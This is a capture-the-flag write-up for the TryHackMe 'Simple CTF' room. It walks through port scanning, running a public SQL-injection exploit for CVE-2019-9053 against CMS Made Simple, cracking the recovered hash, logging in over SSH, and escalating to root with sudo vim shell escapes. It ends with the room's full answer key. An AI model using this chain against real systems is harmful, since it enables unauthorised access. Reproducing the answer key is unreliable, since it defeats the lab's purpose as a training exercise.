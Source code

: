 ## Simple CTF - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/easyctf)

**Deploy the machine and attempt the questions!**

**HINT 1**: `An issue was discovered in CMS Made Simple 2.2.8. It is possible with the News module, through a crafted URL, to achieve unauthenticated blind time-based SQL injection via the m1_idlist parameter.`

**HINT 2**: `You can use /usr/share/seclists/Passwords/Common-Credentials/best110.txt to crack the pass`

**IP: 10.10.105.220**

---

## 📌 General Information

**Room Difficulty**: Easy <br>

**Room Type**: Linux Privilege Escalation, Password Cracking <br>

**Tools Used**: Nmap, Gobuster, John The Ripper

**Author**: <br>

mauzware aka mauzinho <br>
[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting with Nmap and Gobuster.
  ```
  nmap -A -p- 10.10.105.220
  
  open ports: 21, 80, 2222
  21 -> vsftpd 3.0.3
  80 -> Apache httpd 2.4.18 ((Ubuntu))
  2222 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

  gobuster dir -u http://10.10.105.220 -w=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 64 --no-error -z -x php,asp,html,txt,zip
  /robots.txt 
  ```
  
- When I visited `robots.txt` I found `mike` which could be usefull credential. Now moving to exploitation

---

## ⚙️ Exploitation

- So for exploits, I found it with `searchsploit` but you can also download it from Exploits DB with this [link](https://www.exploit-db.com/exploits/46635)

  ```
  searchsploit cms made simple
  searchsploit -m 46635
  ```
  
- I moved to exploit to desired directory and changed it's name to `cmsexploit.py`, now let's run it. Hint told me to use `/usr/share/seclists/Passwords/Common-Credentials/best110.txt` as wordlist.

  ```
  python cmsexploit.py -u http://10.10.105.220/simple/ --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt
  ```
  
- Nice! It found credentials `mitch` and `0c01f4468bd75d7a84c7eb73846e8d96`. Crack the hash and use those credential to connect with SSH. Password is `secret`.

  ```
  john --wordlist=/usr/share/seclists/Passwords/Common-Credentials/best110.txt hash.txt
  ```

- Connect with SSH on port 2222: `ssh mithc@10.10.105.220 -p 2222` ; password is `secret`.

---

## 🧍 User Privilege Escalation

- Finding user flag is simple. `G00d j0b, keep up!`

---

## 👑 Root Privilege Escalation

- For root flags, I always look for writable files, SUID and SUDO privileges first. Writable files and SUID weren't helpfull but SUDO was!

  ```
  sudo -l 
  /usr/bin/vim
  ```
  
- So, for getting root with `vim` there's few different options, all 3 of these will work. After getting root, just read the flag.

  ```
  sudo vim -c ':!/bin/sh'
  sudo vim -c '!sh'
  sudo /usr/bin/vim
  
  cat /root/root.txt
  W3ll d0n3. You made it!
  ```

---

## 🏁 Flags

- **How many services are running under port 1000?**: `2`
- **What is running on the higher port?**: `ssh`
- **What's the CVE you're using against the application?**: `CVE-2019-9053`
- **To what kind of vulnerability is the application vulnerable?**: `sqli`
- **What's the password?**: `secret`
- **Where can you login with the details obtained?**: `ssh`
- **User Flag**: `G00d j0b, keep up!`
- **Is there any other user in the home directory? What's its name?**: `sunbath`
- **What can you leverage to spawn a privileged shell?**: `vim`
- **Root Flag**: `W3ll d0n3. You made it!`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing special, just sharpening my skills tho.`

- What did I learn?
  `New CVE and new exploit.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
